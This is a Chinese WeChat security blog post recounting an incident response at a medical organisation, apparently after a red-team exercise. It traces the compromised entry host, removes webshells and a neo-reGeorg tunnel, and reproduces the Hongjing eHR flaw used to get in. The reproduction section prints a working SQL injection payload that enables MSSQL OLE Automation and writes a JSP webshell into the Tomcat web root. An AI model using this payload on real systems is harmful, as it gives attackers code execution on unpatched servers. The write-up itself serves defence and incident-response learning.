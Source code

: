#  某医疗单位一次应急响应

原创 Xuno  [ 猫鼠信安 ](javascript:void\(0\);)

**猫鼠信安** ![]()

微信号 gh_b8b8c8961ead

功能介绍
专注于网络安全领域的公众号，致力于探索最新的安全技术和分享安全知识。在我们的平台上，你可以学习到如何保障数据安全，并探索最新的安全漏洞和防护策略。我们欢迎您的加入，一起共创安全的网络环境。

____

___发表于_

收录于合集 #勒索病毒 4个

##  

**声明：** 该公众号分享的安全工具和项目均来源于网络，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者和本公众号无关。  
  
---  
  
  

现在只对常读和星标的公众号才展示大图推送，建议大家把猫鼠信安“设为星标”，否则可能看不到了！

## 背景

某市hw，根据客户反馈：自己单位被打穿了，具体原因不知道，怎么打进来的也不知道，因为裁判没有给具体报告，只能进行没有头绪的应急，据了解客户单位只有一台外网的态势感知，内网只有一台防火墙

## 1、找到入口机

到现场后，查看外网的态势感知设备，发现这几天有大量告警，一条条看会花费大量时间，此时只能从内网防火墙进行下手进行逆推，排查所有发起横向攻击的沦陷主机，同时对这些沦陷主机进行断网处理  
![]()  
排查这些主机，发现多台服务器存在异常登录情况，登录IP均为188这台内网主机  
![]()  
![]()  
初步锁定沦陷主机为188这台，查找资产台账，定位沦陷主机为某某系统

## 2、上机排查、删除后门

立即对188这台服务器进行上机排查，排查发现主机应用目录存在三个WEBSHELL以及一个内网穿透工具neo-reGeorg，确定该主机为入口机，如下图

![]()  
立即删除webshell文件和内网穿透工具

先期处置完成后，开展溯源分析，通过态势感知发现在2023-7-24 16:03:54检测到上传Webshell后门tunnel.jsp  
![]()  
![]()

## 3、复现漏洞、紧急加固

通过态势感知观察流量，进行漏洞复现，确定攻击者通过宏景ehr漏洞 可实现getshell。  
![]()

该漏洞将存储过程中的输出getshell网站根目录下的jsp文件里  
PAYLOAD:

    
    
    1';EXEC sp_configure 'show advanced options', 1;    
    RECONFIGURE WITH OVERRIDE;    
    EXEC sp_configure 'Ole Automation Procedures', 1;    
    RECONFIGURE WITH OVERRIDE;    
    EXEC sp_configure 'show advanced options', 0;declare @o int, @f int, @t int, @ret int  
    exec sp_oacreate 'scripting.filesystemobject', @o out  
    exec sp_oamethod @o, 'createtextfile', @f out, 'D:\apache-tomcat-x.x.x\webapps\ROOT\test.jsp', 1  
    exec @ret = sp_oamethod @f, 'writeline', NULL,'webshell';--  
    

![]()  
立即对该主机进行下线，同时对内网所有沦陷主机进行后门排查

 **应急工具下载**

 **点击下方名片进入公众号** ** **回复关键字【 5693** **】获取 **下载链接******

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


